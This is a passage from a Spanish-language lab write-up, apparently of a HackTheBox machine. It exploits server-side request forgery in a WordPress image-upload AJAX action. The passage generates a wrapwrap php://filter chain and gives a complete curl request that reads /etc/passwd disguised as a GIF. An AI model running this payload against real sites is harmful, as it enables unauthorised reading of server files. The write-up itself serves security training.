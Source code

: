 
## Server Side Request Forgery + Wrappers Chain

En este contexto abusaremos del parámetro `url` para hacer una solicitud a recursos internos, como archivos u otros endpoints, primeramente intentaremos leer el archivo `/etc/passwd`-

Es por esta limitación que debemos utilizar métodos más avanzados para poder leer archivos sin que se nos aplique esta restricción. 

> En este caso usaremos una herramienta que nos permita crear una cadena de `wrappers` (`php://filter/`) con el fin de ofuscar el contenido del archivo para que sea procesado como una imagen. La herramienta la podemos encontrar en el siguiente repositorio
{: .notice--danger}

- https://github.com/ambionics/wrapwrap

~~~ bash
git clone https://github.com/ambionics/wrapwrap
cd wrapwrap
~~~

Crearemos la cadena enviando datos como el archivo objetivo, el prefijo y la cantidad de bytes a procesar

~~~ bash
python3 wrapwrap.py '/etc/passwd' 'GIF89a' '' 100000
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1444).

cat chain.txt          
php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd
~~~

Utilizaremos esta cadena de filtros para evitar restricciones del servidor y ofuscar el contenido del archivo que queremos cargar

~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd'
~~~